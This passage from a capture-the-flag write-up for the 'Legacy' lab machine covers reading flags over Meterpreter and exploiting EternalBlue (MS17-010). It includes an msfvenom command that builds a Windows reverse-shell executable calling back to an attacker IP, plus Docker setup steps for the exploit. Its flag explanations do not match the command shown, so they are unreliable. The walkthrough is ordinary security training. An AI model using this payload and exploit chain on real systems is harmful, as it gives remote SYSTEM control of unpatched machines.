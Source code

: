 Navigate to the user and administrator directories to retrieve the flags:

```
meterpreter > cd "Documents and Settings\john\Desktop"
meterpreter > cat user.txt
e69af0e4...

meterpreter > cd "Documents and Settings\Administrator\Desktop"
meterpreter > cat root.txt
993442d2...
```


# Exploiting MS17-010 (EternalBlue) - CVE-2017-0143

The **MS17-010** vulnerability, also known as `EternalBlue`, is a critical remote code execution flaw in Microsoft's SMBv1 protocol. On the Legacy box, this vulnerability allows for SYSTEM-level access. 


Using `msfvenom` to Generate a Payload:

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.19 LPORT=1337 -f exe -o ms17-010.exe
```

- `-p windows/shell_reverse_tcp`: Specifies the payload (a reverse TCP shell for Windows).
- `LHOST=10.10.14.4`: The attacker's IP address (where the target will connect back).
- `LPORT=443`: The port on the attacker's machine to listen for the connection.
- `-f exe`: Outputs the payload as an executable file.
- `-a x86`: Specifies the architecture (32-bit).
- `-o rev.exe`: Saves the payload as `rev.exe`.

Setting Up a Docker Container:

- **Why Use Docker?**
    - Docker provides a consistent and isolated environment for running the exploit.
    - It avoids dependency issues (e.g., Python version conflicts, missing libraries).

Steps to Set Up Docker:

```
sudo apt-get install docker.io
```

Create a Folder Structure:

```
mkdir exploit
cd exploit
touch Dockerfile
echo "impacket==0.9.23" > requirements.txt
```

* `Dockerfile`: Contains instructions for building the Docker container.
* `requirements.txt`: Lists Python dependencies (e.g., `impacket`).

Write the Dockerfile:

